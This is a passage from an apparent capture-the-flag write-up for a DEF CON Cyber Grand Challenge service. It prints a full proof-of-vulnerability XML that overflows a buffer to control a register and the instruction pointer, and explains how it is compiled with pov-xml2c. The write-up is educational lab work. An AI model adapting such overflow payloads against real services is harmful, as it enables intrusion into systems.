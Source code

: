 ```
<read><length>38</length></read>
    <write><data>1\x0a</data></write>
    <read echo="yes"><length>12</length></read>
    <write><data>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xae\xaa\xba</data>
           <var>TYPE1_REG</var>
           <data>BBBB</data>
           <var>TYPE1_IP</var>
           <data>BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x0a</data></write>

```

    
    A bit of explanation here. Remember when we mentioned we're "negotiating" with the challenge framework? Well part of that is that the machine tells us what it wants us to set EIP and our register to. This is unique every run. So we specify that with the two special data sections called "var" and the special var names "TYPE1\_IP" and TYPE1\_REG".
    
    Our entire PoV looks like this:
    
    
```
<?xml version="1.0" standalone="no" ?>

<cfepov>
<cbid>service</cbid>
<replay>
    <negotiate><type1><ipmask>0xffffffff</ipmask><regmask>0xffffffff</regmask><regnum>6</regnum></type1></negotiate>
    <read><length>38</length></read>
    <write><data>1\x0a</data></write>
    <read echo="yes"><length>12</length></read>
    <write><data>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xae\xaa\xba</data>
           

<var>TYPE1_REG</var>
           <data>BBBB</data>
           <var>TYPE1_IP</var>
           <data>BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x0a</data></write>
</replay>
</cfepov>

```

    
    (<a href="https://github.com/sourcekris/ctf-solutions/blob/master/cgc/defcon16/legit_00003/legit_00003_pov.xml" target="_blank">Link here to the XML on Github</a>)
    
    Ok great!!! Now can we submit it and collect internet points?!?! 
    
    NOPE!
    
    PoV's can't be submitted to Defcon's framework as XML files. We must compile them to binary PoVs. To do this we use a few tools. The first is called <a href="https://github.com/CyberGrandChallenge/pov-xml2c" target="_blank">pov-xml2c</a>. This tool uses the cfe-pov DTD to convert your XML document into a C source code that leverages libpov and libcgc to conduct the repeatable attack.
    